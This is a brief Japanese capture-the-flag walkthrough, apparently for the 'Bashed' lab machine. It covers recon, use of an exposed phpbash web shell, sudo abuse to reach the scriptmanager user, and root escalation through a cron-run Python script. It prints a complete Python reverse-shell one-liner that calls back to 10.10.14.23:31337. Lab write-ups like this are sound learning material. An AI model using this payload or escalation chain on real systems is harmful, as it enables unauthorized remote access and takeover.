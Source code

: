 # Recon
- 80 番ポートのみ空いている
- とりあえずディレクトリ探索
  - `/dev` が見かけないフォルダ
- `/dev` にアクセスすると `phpbash.php` があり、開くと `phpbash.php` が実行される
  - `www-data` として任意のコードが実行可能
  - `cat /home/arrexel/user.txt`

# Exploit
- privesc したいので `sudo -l` して使えそうなユーザがいないか見る
  - `www-data` は `scriptmanager` として任意のコードをパスワードなしで実行できる
  ```www-data@bashed
  :/var/www/html/dev# sudo -l

  Matching Defaults entries for www-data on bashed:
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User www-data may run the following commands on bashed:
  (scriptmanager : scriptmanager) NOPASSWD: ALL
  ```
  - `sudo -u scriptmanager bash -i`
- (エスパー？) `/scripts` に入れるようになる
- (エスパー？) `test.txt` は毎分更新されており、 `test.py` が `root` により自動実行されている疑いがある
  - `/root/root.txt` を読み出すpythonコードを書けば root がそれを実行し root.txt が取れる
  - リバースシェルを張るコードをおいておけば root がpythonスクリプトを実行でき root が取れる
    - `echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py`

